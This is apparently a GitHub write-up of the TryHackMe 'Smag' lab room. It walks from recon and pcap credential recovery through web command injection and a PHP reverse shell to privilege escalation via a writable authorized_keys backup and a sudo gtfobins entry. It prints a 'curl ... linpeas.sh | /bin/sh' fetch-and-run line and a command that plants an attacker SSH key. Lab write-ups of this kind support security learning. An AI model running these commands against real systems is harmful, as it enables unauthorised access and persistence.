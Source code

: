 # SmagWriteUp
So I'll show you my way to hack this very nice, but no so easy tryhackme room :
Smag
# Recon
First, we need to scan with nmap, as always :
![Capture d’écran de 2020-07-31 18-50-30](https://user-images.githubusercontent.com/50116433/89050911-b889b400-d353-11ea-8889-df85a7b67fdb.png)<br>
We see http and ssh. The apache webserver isn't vulnerable and ssh isn't either.
Let's run an nmap scan on all ports in the background, just in case : 
```nmap -p- 10.10.43.30```
# Get a shell
Now I wanna look at the webserver, but it's under construction so nothing appears to be here...
I added smag.thm to /etc/hosts, but nothing changed.

One thing you should do everytime you're on a webpage is checking the file extension. Here the index file is index.php
The webserver is running php. 
Let's run gobuster, since this is the only thing we can do now :
![Capture d’écran de 2020-07-31 18-58-27](https://user-images.githubusercontent.com/50116433/89051347-68f7b800-d354-11ea-887f-5454af53f124.png)<br>

You noticed that I used the .php extension, and the txt too ( I always, it's just in case )
After finding /mail we can see a page saying the server is using mail2web software to displays mails on the page, but I didn't find anything with it in searchsploit :(<br>
There is a .pcap file, after opening it in wireshark we can see an http request with a username and a password. Nice !
I tried to use these in ssh but it didn't work.
<br><br>
![censored_stuff](https://user-images.githubusercontent.com/50116433/89052543-26cf7600-d356-11ea-8f2c-34e3d0ba5225.jpg)<br>
<br>
We also notice that the http request is going to development.smage.htb, and after adding it to my /etc/hosts files.
The domain development.swag.thm is redirecting to a login page where we can login with the credentials we found earlier.
There is an admin command pannel :
![Capture d’écran de 2020-07-31 19-08-13](https://user-images.githubusercontent.com/50116433/89053375-65b1fb80-d357-11ea-80c1-3d531d7418f1.png)<br>
I try to ping my machine, just to see if it works, I use tcpdump to listen for incoming ping request : 
```sudo tcpdump -i tun0 icmp and icmp[icmptype]=icmp-echo```
Then I run the command on the webpage and tadaaa:<br>
![Capture d’écran de 2020-07-31 19-08-33](https://user-images.githubusercontent.com/50116433/89053686-e40e9d80-d357-11ea-92fe-cfa5eb7c0dd5.png)<br><br>
It's working ! Unfortunately, it's not displaying any output, even in the source code, so we cannot read flags.
I tried to wget a php file from my machine, and the file is downloaded correctly by the machine but somehow I couldn't have access to it with my browser... 
At this point I tried many reverse shells, but I was sending commands with burp, and they didn't worked because the url encoding wasn't correctly executed.
I tried again few hours later but I was sending my reverse sshells command from the website and after few minutes I remebered that the webserver was running php, so php should be installed on the machine. And it was : my reverse php shell worked !<br>
![Capture d’écran de 2020-07-31 19-11-31](https://user-images.githubusercontent.com/50116433/89054531-42884b80-d359-11ea-8237-04c09f3f4b4c.png)
# User Flag
So there is a user jake, but we cannot acces the flag in his home directory and we can't either read the .ssh folder.
Next step is to run our favourite enumeration tool : [LinPeas](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS).
I setup an http server on my computer with updog ( a very cool and easy to use http server ), then I run linpeas with the following command : <br>```curl 10.9.10.225:9090/linpeas.sh |/bin/sh```<br>
I do like this because here, no file is getting downloaded and it's invisible for the user.
After looking at the output ( it took some time ), I noticed a crontab executed by root :
![Capture d’écran de 2020-07-31 19-16-55](https://user-images.githubusercontent.com/50116433/89055602-f50cde00-d35a-11ea-8bf0-e53c1a050dd2.png)<br>
The root user is copying this file to jake's authorized_keys
We have write access to the /opt/.backups/jake_id_rsa.pub.backup file, so we can put our own .pub file here, and then connect to Jake with ssh !
Let's go to /dev/shm ( because we always have write access into it ) and use ssh-keygen.<br>
![Capture d’écran de 2020-07-31 19-20-22](https://user-images.githubusercontent.com/50116433/89055953-8bd99a80-d35b-11ea-94c3-a05746f862cc.png)<br>
After generating a public ssh key let's copy it to the jake .pub backup file :
```cp /dev/shm/id_rsa.pub /opt/.backups/jake_id_rsa.pub.backups```
Copy the id_rsa private key to our machine, wait a bit, then connect with ssh to jake's account :
![Capture d’écran de 2020-07-31 19-28-08](https://user-images.githubusercontent.com/50116433/89056343-289c3800-d35c-11ea-8310-bbb15cd4f7af.png)<br>
# Root Flag
Before running linpeas always check sudo -l permissions :
![Capture d’écran de 2020-07-31 19-28-32](https://user-images.githubusercontent.com/50116433/89056720-c263e500-d35c-11ea-84fb-28f79a977a73.png)<br>
There is a privesc with this on gtfobins ( even three ), the first one won't work because the machine isn't connected to internet, the second one may work but I'll try the third one because it fits on one line.<br>
![Capture d’écran de 2020-07-31 19-29-54](https://user-images.githubusercontent.com/50116433/89056972-2edee400-d35d-11ea-9660-564377550066.png)<br>
And we are root ! Thanks you [JakeDoesSec](https://tryhackme.com/p/JakeDoesSec) for this very nice room !
